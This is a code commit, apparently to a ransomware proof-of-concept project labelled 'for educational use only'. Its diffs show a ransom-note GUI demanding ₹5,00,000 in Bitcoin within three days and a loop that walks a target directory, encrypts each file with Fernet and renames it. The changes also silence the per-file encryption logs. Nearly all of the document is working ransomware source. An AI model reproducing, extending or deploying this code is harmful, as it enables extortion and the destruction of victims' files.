

Enhance file processing logging and update GUI text
- Added detailed logging for the number of files processed during encryption and decryption in core.py.
- Suppressed per-file encryption and decryption logs in encryptor.py for cleaner output.
- Updated GUI text to reflect a new payment message and changed the footer label for clarity in main.py.
- Updated demo image in web/assets for improved visual representation.

diff --git a/ransomware/gui/main.py b/ransomware/gui/main.py
@@ -59,25 +59,11 @@ class RansomwareGUI(tk.Tk):
         self.timer_label = tk.Label(self, text="Time left: 72:00:00", font=("Courier", 20, "bold"), fg="#ffff00", bg="#000000")
         self.timer_label.pack(pady=(10, 10))
 
-        user = getpass.getuser()
-        host = platform.node()
-        ip = self.get_local_ip()
-        os_name = platform.system() + " " + platform.release()
-        now = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
-        info_text = f"User: {user}\nHost: {host}\nIP: {ip}\nOS: {os_name}\nTime: {now}"
-        if self.target_dir:
-            info_text += f"\nTarget: {self.target_dir}"
-        info = tk.Label(self, text=info_text, font=("Courier", 10), fg="#ff4444", bg="#000000", justify="left")
-        info.pack(pady=(0, 10))
-
         note_frame = tk.Frame(self, bg="#1a0000", bd=2, relief="solid")
         note_frame.pack(padx=30, pady=10, fill="x")
         note = tk.Label(note_frame, text=(
             "YOUR DOCUMENTS, PHOTOS, DATABASES AND OTHER IMPORTANT FILES HAVE BEEN ENCRYPTED!\n\n"
-            "If you see this message, your files are NO LONGER ACCESSIBLE.\n"
-            "You must PAY A RANSOM in BITCOIN to get them back!\n\n"
-            "Send Rupee 5,00,000 worth of BTC to the address below.\n"
-            "After payment, enter the code and click 'Decrypt Files'.\n\n"
+            "TO RECOVER THEM, PAY ₹5,00,000 IN BITCOIN TO THE ADDRESS BELOW.\n"
             "FAILURE TO PAY WITHIN 3 DAYS WILL RESULT IN PERMANENT FILE LOSS!\n"
         ), font=("Courier", 12, "bold"), fg="#ffcc00", bg="#1a0000", justify="left", wraplength=620)
         note.pack(padx=10, pady=10)
@@ -105,7 +91,7 @@ class RansomwareGUI(tk.Tk):
                                      bd=3, relief="raised")
         self.decrypt_btn.pack(side="left", ipady=6)
 
-        footer = tk.Label(self, text="WannaCry Simulator PoC - FOR EDUCATIONAL USE ONLY", font=("Courier", 9), fg="#888888", bg="#000000")
+        footer = tk.Label(self, text="PainPain Ransomware PoC - FOR EDUCATIONAL USE ONLY", font=("Courier", 9), fg="#888888", bg="#000000")
         footer.pack(side="bottom", pady=10)
 
     def update_timer(self):

diff --git a/ransomware/core.py b/ransomware/core.py
@@ -88,17 +88,23 @@ class RansomwareApp:
         discoverer = FileDiscoverer(root_dir)
         files = discoverer.discover_files()
         logger.info(f"Processing {len(files)} files in {root_dir}")
+        processed = 0
         for file in files:
             try:
                 if encrypt and not file.endswith(extension):
                     self.encryptor.encrypt_file(file)
                     os.rename(file, file + extension)
+                    processed += 1
                 elif not encrypt and file.endswith(extension):
                     self.encryptor.decrypt_file(file)
                     os.rename(file, file[:-len(extension)])
+                    processed += 1
             except Exception as e:
                 logger.error(f"Failed to process {file}: {e}")
-        logger.info("Processing complete.")
+        if encrypt:
+            logger.info(f"Encryption complete. Total files encrypted: {processed}")
+        else:
+            logger.info(f"Decryption complete. Total files decrypted: {processed}")
         # Launch GUI after encryption
         if encrypt:
             decrypt_cmd = [sys.executable, sys.argv[0], "-p", root_dir, "-d"]

diff --git a/ransomware/crypto/encryptor.py b/ransomware/crypto/encryptor.py
@@ -30,7 +30,7 @@ class Encryptor:
             encrypted = self.fernet.encrypt(data)
             with open(file_path, 'wb') as f:
                 f.write(encrypted)
-            logger.info(f"Encrypted {file_path}")
+            # logger.info(f"Encrypted {file_path}")  # Suppress per-file log
         except Exception as e:
             logger.error(f"Encryption error: {e}")
             raise EncryptionError(str(e))
@@ -45,7 +45,7 @@ class Encryptor:
             decrypted = self.fernet.decrypt(data)
             with open(file_path, 'wb') as f:
                 f.write(decrypted)
-            logger.info(f"Decrypted {file_path}")
+            # logger.info(f"Decrypted {file_path}")  # Suppress per-file log
         except Exception as e:
             logger.error(f"Decryption error: {e}")
             raise EncryptionError(str(e))
